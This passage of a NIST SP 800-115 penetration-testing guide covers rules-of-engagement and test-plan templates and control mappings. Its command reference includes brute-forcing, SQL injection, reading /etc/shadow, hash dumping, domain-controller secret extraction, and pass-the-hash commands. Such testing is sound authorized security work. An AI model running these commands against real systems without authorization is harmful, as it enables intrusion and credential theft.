   [ ] Destructive testing (requires explicit written approval)

6. PROHIBITED ACTIONS
   [ ] DoS attacks against production systems
   [ ] Accessing or retaining actual PII/PHI/PCI data
   [ ] Testing systems outside defined scope
   [ ] Modifying or deleting production data
   [ ] Installing persistent backdoors without explicit approval
   [ ] Sharing assessment data with unauthorized parties
   [ ] Testing from unauthorized source IP addresses

7. AUTHORIZED TESTER SOURCE IPs
   External:  ____________________________________________
   VPN Range: ____________________________________________
   Jump Box:  ____________________________________________

8. EMERGENCY CONTACTS (24/7 availability required)
   Primary:    Name: ____________  Phone: _______________
   Alternate:  Name: ____________  Phone: _______________
   Escalation: Name: ____________  Phone: _______________
   IR Team:    Phone: ___________  Email: _______________

9. COMMUNICATION PROTOCOLS
   Status Updates:      [ ] Daily  [ ] Weekly  [ ] Milestones
   Secure Channel:      [ ] PGP  [ ] Signal  [ ] Encrypted Portal
   Critical Finding SLA: Notify within [__] hours of discovery
   Report Delivery:     _____________________________________

10. EVIDENCE HANDLING
    Screenshots:     Encrypted local storage only; no cloud sync
    Credentials:     Encrypted vault (KeePass/Bitwarden); destroyed post-delivery
    Raw Scan Data:   Retained [30/60/90] days then securely wiped
    Chain of Custody: Log timestamp, handler name, storage location for all artifacts

11. INCIDENT RESPONSE PROCEDURE
    If a system disruption occurs during testing:
    1. Immediately stop all testing against that system
    2. Contact Primary Emergency Contact within 15 minutes
    3. Document the exact sequence of commands/actions before the incident
    4. Cooperate fully with the client incident response team
    5. Do not resume testing until client provides written clearance

12. AUTHORIZATION SIGNATURES
    Client Organization:
    Name: _________________  Title: ___________________
    Signature: ____________  Date: ____________________

    Assessing Organization:
    Name: _________________  Title: ___________________
    Signature: ____________  Date: ____________________

    Legal Counsel Review (if required):
    Name: _________________  Title: ___________________
    Signature: ____________  Date: ____________________
========================================================
```

---

## NIST-Compliant Test Plan Outline

A Security Assessment Plan (SAP) in FISMA contexts must include the following sections:

### Section 1 — System Information

```
System Name:              ________________________________
System Owner:             ________________________________
FIPS 199 Impact Level:    [ ] Low  [ ] Moderate  [ ] High
System Description:       ________________________________
Authorization Boundary:   ________________________________
Previous Assessment Date: ________________________________
Open POA&M Items Count:   ________________________________
```

### Section 2 — Assessment Team

| Role | Name | Organization | Clearance Level |
|---|---|---|---|
| Assessment Lead | | | |
| Technical Lead | | | |
| Network Tester | | | |
| Application Tester | | | |
| Report Writer | | | |

### Section 3 — Objectives Mapped to NIST 800-53 Control Families

| Control Family | Assessment Objective | Test Method |
|---|---|---|
| **AC** Access Control | Verify least-privilege implementation | Technical testing + review |
| **AU** Audit & Accountability | Verify logging completeness and integrity | Configuration review |
| **CA** Assessment & Authorization | Verify continuous monitoring program | Interview + testing |
| **CM** Configuration Management | Verify baseline hardening applied | Authenticated scanning |
| **IA** Identification & Authentication | Test authentication strength and MFA | Password cracking + bypass |
| **RA** Risk Assessment | Verify vulnerability management process | Scan data analysis |
| **SA** System & Services Acquisition | Test third-party component security | Dependency scanning |
| **SC** System & Comms Protection | Test encryption in transit | Network sniffing |
| **SI** System & Info Integrity | Test patch management effectiveness | Authenticated scanning |

### Section 4 — Testing Schedule

| Phase | Activity | Start Date | End Date | Responsible Party |
|---|---|---|---|---|
| Planning | ROE finalization | MM/DD/YY | MM/DD/YY | Assessment Lead |
| Planning | Authorization obtained | MM/DD/YY | MM/DD/YY | Client POC |
| Discovery | Network scanning | MM/DD/YY | MM/DD/YY | Network Tester |
| Discovery | Vulnerability scanning | MM/DD/YY | MM/DD/YY | Network Tester |
| Discovery | Application enumeration | MM/DD/YY | MM/DD/YY | Application Tester |
| Attack | Exploitation | MM/DD/YY | MM/DD/YY | Technical Lead |
| Attack | Privilege escalation | MM/DD/YY | MM/DD/YY | Technical Lead |
| Reporting | Draft report | MM/DD/YY | MM/DD/YY | Report Writer |
| Reporting | Client review period | MM/DD/YY | MM/DD/YY | Assessment Lead |
| Reporting | Final report delivery | MM/DD/YY | MM/DD/YY | Assessment Lead |

---

## Command Reference Aligned with NIST

### Phase 2 Commands (Discovery)

```bash
# Host Discovery — build live host inventory
nmap -sn -PE -PA21,22,23,25,80,443,8080 10.0.0.0/24 -oG ping_sweep.gnmap
grep "Up" ping_sweep.gnmap | awk '{print $2}' > live_hosts.txt

# Comprehensive port and service scan
nmap -sS -sV -sC -O -p- --min-rate 5000 --open -iL live_hosts.txt \
  -oA comprehensive_scan 2>&1 | tee scan_log.txt

# UDP top-100 service scan
nmap -sU --top-ports 100 -iL live_hosts.txt -oA udp_scan

# HTTP header collection from all hosts
for host in $(cat live_hosts.txt); do
    echo "=== $host ===" >> http_headers.txt
    curl -sI http://$host >> http_headers.txt 2>&1
    curl -sI https://$host --insecure >> http_headers.txt 2>&1
done

# TLS certificate subject and SAN extraction
for host in $(cat live_hosts.txt); do
    echo "=== $host ===" >> cert_info.txt
    echo | openssl s_client -connect $host:443 2>/dev/null | \
      openssl x509 -noout -text >> cert_info.txt 2>&1
done

# High-value vulnerability checks
nmap -p 445 --script smb-vuln-ms17-010 -iL live_hosts.txt
nmap -p 443 --script ssl-heartbleed -iL live_hosts.txt
nmap -p 21  --script ftp-anon -iL live_hosts.txt
nmap --script vuln,safe -iL live_hosts.txt -oA nse_vuln_scan
```

### Phase 3 Commands (Attack)

```bash
# Network device default credential testing
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt \
      -P /usr/share/seclists/Passwords/Default-Credentials/default-passwords.csv \
      -t 4 ssh://192.168.1.1

# BlueKeep (CVE-2019-0708) scanner
msf6 > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf6 auxiliary(cve_2019_0708_bluekeep) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(cve_2019_0708_bluekeep) > run

# Web application SQL injection
sqlmap -u "http://target.com/item?id=1" --level=5 --risk=3 --dbs --batch

# Local File Inclusion fuzzing
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt \
     -u "http://target.com/page?file=FUZZ" -mc 200

# Linux hash extraction
cat /etc/shadow | grep -v '!\|\*' > linux_hashes.txt

# Windows hash extraction (Meterpreter)
meterpreter > run post/windows/gather/hashdump

# Active Directory hash extraction
impacket-secretsdump -just-dc-ntlm DOMAIN/admin:password@dc01.domain.com

# Crack NTLM with rules
hashcat -m 1000 -a 0 ntlm.txt rockyou.txt \
  -r /usr/share/hashcat/rules/OneRuleToRuleThemAll.rule

# Pass-the-hash attack (no cracking required)
impacket-psexec -hashes :NTLMHASH DOMAIN/admin@192.168.1.100
crackmapexec smb 192.168.1.100 -u admin -H NTLMHASH --exec-method smbexec
```

---

## Relationship to Other NIST Publications

NIST SP 800-115 is part of a broader ecosystem of NIST cybersecurity publications. Understanding
how they interrelate is essential for building a complete compliance program.

### NIST SP 800-53 — Security and Privacy Controls

SP 800-53 is the master control catalog. SP 800-115 provides the testing methodology for each
control family.

| 800-53 Control | How 800-115 Tests It |
|---|---|
| **AC-2** Account Management | Enumerate accounts, test default and shared credentials |
| **AC-17** Remote Access | Test VPN, SSH, RDP configurations and cipher strength |
| **AU-6** Audit Review | Verify logging captures all assessment activity |
| **CM-6** Configuration Settings | Authenticated scan vs. CIS/STIG hardening benchmarks |
| **IA-5** Authenticator Management | Password cracking, complexity testing, MFA bypass |
| **RA-5** Vulnerability Monitoring | Vulnerability scanning per 800-115 methodology |
| **SC-8** Transmission Confidentiality | Sniff for cleartext protocols (FTP, Telnet, HTTP) |
| **SI-2** Flaw Remediation | Patch level verification via authenticated scanning |
| **SI-3** Malware Protection | Test AV evasion techniques, verify detection post-test |

```bash
# Test AC-17 — check VPN cipher suite strength
nmap --script ssl-enum-ciphers -p 443,1194,4443 vpn.target.com

# Test SC-8 — detect cleartext protocols
tcpdump -i eth0 -n 'port 23 or port 21 or port 110 or port 143' -w cleartext.pcap

# Test SI-2 — unpatched web software
nmap --script http-vuln* -p 80,443,8080,8443 -iL live_hosts.txt
```

### NIST Cybersecurity Framework (CSF)

The CSF organizes security around five functions. SP 800-115 assessments contribute to each:

| CSF Function | How 800-115 Assessment Contributes |
|---|---|
| **Identify** | Discovery phase builds asset inventory; finds unmanaged and shadow IT |
| **Protect** | Validates that firewalls, ACLs, patching, and hardening are effective |
| **Detect** | Attack phase verifies SIEM, IDS, and EDR detection capability |
| **Respond** | Social engineering tests incident escalation and response procedures |
| **Recover** | Post-exploitation validates backup accessibility and restoration |

### NIST SP 800-171 — Protecting CUI in Non-Federal Systems

800-171 applies to organizations handling Controlled Unclassified Information. CMMC assessors use
800-115 as the testing methodology against 800-171 requirements.

| 800-171 Requirement | Maps to 800-53 | 800-115 Test Method |
|---|---|---|
| 3.1.1 — Limit system access to authorized users | AC-2 | LDAP enumeration, unauthorized access tests |
| 3.5.3 — Use multifactor authentication for privileged access | IA-2 | MFA bypass, token replay attacks |
| 3.14.6 — Monitor systems to detect attacks | SI-4 | Execute attack phase; verify SIEM alert generated |
| 3.4.2 — Establish security configs for IT products | CM-6 | Authenticated scan vs. STIG/CIS benchmarks |

### NIST SP 800-30 — Risk Assessment Guide

800-30 defines the risk model underlying Phase 4 reporting risk ratings in SP 800-115.

| Likelihood Level | Probability | Description |
|---|---|---|
| **Very High** | 96-100% | Adversary highly capable and motivated; controls ineffective |
| **High** | 81-95% | Adversary capable; controls present but largely ineffective |
| **Moderate** | 21-80% | Adversary capable; controls partially effective |
| **Low** | 6-20% | Controls largely effective; adversary capability limited |
| **Very Low** | 0-5% | Controls fully effective; threat largely mitigated |

### NIST SP 800-137 — Information Security Continuous Monitoring

800-137 defines ongoing security monitoring that complements the point-in-time assessments of
800-115.

- **800-115**: deep, periodic validation conducted annually or when triggered by major changes
- **800-137**: continuous automated detection providing real-time visibility
- Assessment findings from 800-115 feed into the ISCM baseline and inform POA&M priorities
- Neither document replaces the other — they address fundamentally different timescales

> **Note:** A mature security program uses both: 800-115 for comprehensive scheduled assessments
> and 800-137 for continuous automated monitoring and alerting.

---

## Quick Reference Summary

| Phase | Key Activities | Primary Tools | Deliverable |
|---|---|---|---|
| **Planning** | Scope definition, authorization, ROE, team roles | Legal templates, authorization forms | Signed ROE, Test Plan (SAP) |
| **Discovery** | Host scanning, port scanning, enumeration, vuln scanning | nmap, Nessus, OpenVAS, enum4linux | Asset inventory, vulnerability list |
| **Attack** | Exploitation, privilege escalation, pivoting, cracking | Metasploit, hashcat, Hydra, John | PoC exploits, demonstrated attack paths |
| **Reporting** | Finding documentation, risk rating, remediation, summary | CVSS calculator, report templates | Final assessment report |

> **Note:** NIST SP 800-115 establishes the minimum methodology for federal assessments.
> Organizations seeking greater adversarial realism should supplement with PTES technical
> guidelines or MITRE ATT&CK-based red team operations. NIST provides the compliance and
> authorization scaffolding; PTES and ATT&CK provide adversarial depth and technique specificity.

---

*References: NIST SP 800-115 (csrc.nist.gov), NIST SP 800-53 Rev 5, NIST CSF 2.0,
NIST SP 800-171 Rev 2, NIST SP 800-30 Rev 1, NIST SP 800-137*
